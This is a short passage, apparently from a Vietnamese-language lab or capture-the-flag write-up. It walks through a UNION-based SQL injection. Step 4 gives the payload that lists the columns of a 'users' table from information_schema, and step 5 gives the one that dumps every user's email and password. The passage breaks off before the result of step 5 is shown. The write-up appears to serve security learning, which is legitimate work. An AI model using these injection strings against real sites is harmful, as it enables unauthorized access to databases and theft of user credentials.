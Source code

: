 - Bước 4: Liệt kê tên các cột của bảng users
⇒ Câu lệnh mình dùng là: `' UNION SELECT NULL,NULL,NULL,column_name,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='users'-- '`
⇒ Kết quả: dễ thấy cột email dùng để lưu trữ email, cột password để lưu trữ mật khẩu:

![image.png](image%203.png)

- Bước 5: Liệt kê toàn bộ email và assword của người dùng:
⇒ Code: `' UNION SELECT NULL,NULL,NULL,email,NULL, NULL, password FROM users-- '` 
⇒ Kết quả:
